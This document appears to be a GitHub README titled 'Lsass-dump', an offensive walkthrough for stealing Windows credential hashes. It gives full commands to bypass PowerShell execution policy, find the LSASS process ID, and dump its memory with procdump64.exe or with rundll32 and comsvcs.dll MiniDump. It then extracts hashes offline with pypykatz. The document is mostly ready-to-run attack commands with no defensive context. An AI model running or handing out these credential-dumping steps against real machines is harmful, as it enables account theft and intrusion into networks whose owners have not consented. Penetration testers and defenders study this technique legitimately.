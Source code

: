 # Lsass-dump

Don't need mimikatz. You can now dump hashes from LSASS by abusing LSASS process and generate a lsass.dmp file. After that we will use pypykatz to extarct the hashes from lsass.dmp file.

# Exploitation

First we must have an administrative privilege to carry this attack.
Upload [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) to target machine.

### Execute Powershell
```markdown
powershell.exe -ep bypass
```

### Get te lassa process id
```markdown
get-process lsass
```

![OnPaste 20220609-133131](https://user-images.githubusercontent.com/106917304/172796695-6b4a5377-2e04-4bfd-9841-453c8a61b8ca.png)

In our case 596 is the lsass process ID.
Execute it with [procdump64.exe](https://github.com/k4sth4/lsass-dump/blob/main/procdump64.exe) and generate a file contain hashes.

### Dumping Hashes into a file
```markdown
.\procdump64.exe -accepteula -ma 596 lsass.dmp
```

## ALTERNATE

We can also use native DLLs instead of procdump64.exe, this way we don't have to upoad anything on target machine.
```markdown
C:\\Windows\\System32\\rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump 596 C:\\Users\\Bob\\Desktop\\lsass.dmp full
```

![OnPaste 20220609-134015](https://user-images.githubusercontent.com/106917304/172800153-21110c80-b8a2-4bb0-a7cb-79e167041ec2.png)


![OnPaste 20220609-135307](https://user-images.githubusercontent.com/106917304/172800664-bd459ddc-50cc-42e6-8380-de12de0b4643.png)



### Using Pypykatz

After downloading that lsass.dmp file to our attacking machine, now we can exctract the hashes using pypykatz.
```markdown
pypykatz lsa minidump lsass.dmp
```

![OnPaste 20220609-135650](https://user-images.githubusercontent.com/106917304/172801351-c615e903-a4b4-41e3-a349-5bd59beb1a18.png)


